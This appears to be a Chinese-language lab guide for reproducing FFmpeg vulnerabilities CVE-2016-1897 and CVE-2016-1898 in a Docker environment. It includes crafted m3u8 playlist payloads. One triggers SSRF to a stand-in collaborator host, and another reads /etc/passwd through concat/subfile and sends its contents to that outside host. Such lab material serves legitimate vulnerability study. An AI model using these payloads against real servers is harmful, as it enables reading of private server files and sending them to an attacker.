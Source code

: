 # FFmpeg 任意文件读取和SSRF漏洞（CVE-2016-1897/CVE-2016-1898）

FFmpeg是一个流行的多媒体框架，可以处理各种音频和视频格式。在FFmpeg中发现了两个漏洞，攻击者可以利用这些漏洞读取任意文件（CVE-2016-1897）或执行服务器端请求伪造（SSRF）攻击（CVE-2016-1898）。

参考链接：

- <https://tttang.com/archive/465/>
- <http://habrahabr.ru/company/mailru/blog/274855/>
- <http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>

## 环境搭建

执行如下命令构建并启动环境：

```
docker compose up -d
```

启动后，服务将监听8080端口。访问`http://your-ip:8080/`即可访问应用，应用是一个简单的视频播放器，允许用户上传和播放视频。

## 漏洞复现

发送以下poc复现SSRF漏洞：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://collaborator/ssrf
```

你将看到collaborator服务器收到请求：

![](1.png)

要复现任意文件读取漏洞，你需要在一个可控服务器（例如`http://intermediate.example.com/intermediate.m3u8`）中上传如下内容作为利用漏洞的中间文件：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://collaborator/fileread?
```

可见，这段m3u8文件中包含collaborator的URL，你窃取的文件内容将被发送至这个collaborator URL中。

然后，使用这个中间文件来构造FFmpeg利用的POC并上传：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://intermediate.example.com/intermediate.m3u8|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST
```

漏洞利用成功后，collaborator服务器收到请求，请求中包含`/etc/passwd`的内容：

![](2.png)
